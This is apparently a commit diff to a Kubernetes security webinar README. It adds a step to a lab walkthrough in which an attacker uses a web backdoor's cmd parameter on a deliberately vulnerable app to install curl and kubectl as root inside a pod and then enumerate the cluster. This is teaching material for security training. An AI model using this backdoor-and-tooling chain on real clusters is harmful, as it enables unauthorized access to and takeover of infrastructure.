

Before and after one commit to slurm-personal/webinar-seck8s, a Markdown page: 03-application-security/README.md, 2 parts joined by grey strips. GitHub-like rendering; pictures changed too: static/03-k8s-matrix.png.

```diff
--- a/03-application-security/README.md
+++ b/03-application-security/README.md
@@ -75,6 +74,7 @@ Application vulnerabilities can bring wide range of different *attack entrypoint
 
 9. use the backdoor to install `kubectl` (note again: the pod is running Ubuntu as `root`) by navigating to `http://images.vulnerable-app.seck8s.slurm.io/?cmd=...`:
     - `kubectl get all`
+    - install curl: `apt-get update`, `apt-get -y install curl`
     - install kubectl ([instruction](http://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)):
         - `curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"`
         - `install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl`
```
Also changed, not shown: other parts of 03-application-security/README.md (+2 -3 lines), 01-privileged-pods/README.md (+3 -3 lines), 2 other files.
